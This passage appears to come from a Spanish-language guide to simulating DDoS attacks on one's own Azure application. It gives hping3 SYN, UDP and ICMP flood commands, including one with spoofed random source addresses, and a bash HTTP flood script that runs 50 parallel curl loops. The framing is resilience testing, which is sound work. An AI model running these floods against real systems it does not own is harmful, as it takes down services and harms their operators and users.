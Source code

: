 #### **3. hping3 - Ataques de Protocolo (Layer 3/4)**

##### **Instalación:**
```bash
# Ubuntu/Debian
sudo apt-get install hping3

# CentOS/RHEL
sudo yum install hping3
```

##### **Simulación de SYN Flood:**
```bash
# ⚡ SYN FLOOD - Básico
sudo hping3 -S -p 80 -i u1000 tu-ip-publica.com

# ⚡ SYN FLOOD - Intenso con IP spoofing
sudo hping3 -S -p 80 --flood --rand-source tu-ip-publica.com

# ⚡ UDP FLOOD - Puerto específico
sudo hping3 -2 -p 53 --flood tu-ip-publica.com

# ⚡ ICMP FLOOD - Ping flood
sudo hping3 -1 --flood tu-ip-publica.com
```

#### **4. curl + bash - Scripts Personalizados**

##### **Script de HTTP Flood:**
```bash
#!/bin/bash
# ddos-simulator.sh

TARGET="https://tu-aplicacion.azurewebsites.net"
CONCURRENT=50
DURATION=300

echo "🚨 Iniciando simulación DDoS contra $TARGET"
echo "⚙️ Concurrencia: $CONCURRENT procesos"
echo "⏱️ Duración: $DURATION segundos"

# Función de ataque
attack() {
    while true; do
        curl -s -o /dev/null -w "%{http_code}\n" "$TARGET" &
        sleep 0.1
    done
}

# Lanzar procesos concurrentes
for i in $(seq 1 $CONCURRENT); do
    attack &
done

# Ejecutar durante el tiempo especificado
sleep $DURATION

# Terminar todos los procesos
pkill -f "curl.*$TARGET"
echo "✅ Simulación completada"
```
